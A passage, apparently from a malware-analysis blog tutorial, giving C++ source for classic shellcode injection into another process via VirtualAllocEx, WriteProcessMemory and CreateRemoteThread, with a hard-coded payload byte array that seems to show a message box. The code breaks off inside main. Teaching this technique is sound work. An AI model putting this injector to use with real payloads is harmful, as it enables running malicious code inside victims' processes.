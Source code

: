 
### practical example 2

Let's look at the "classic" shellcode injection logic with `VirtualAllocEx`, `WriteProcessMemory` and `CreateRemoteThread`:      

```cpp
/*
 * hack2.cpp
 * classic payload injection example
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2023/02/20/malware-av-evasion-12.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";

unsigned int my_payload_len = sizeof(my_payload);

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, my_payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
```
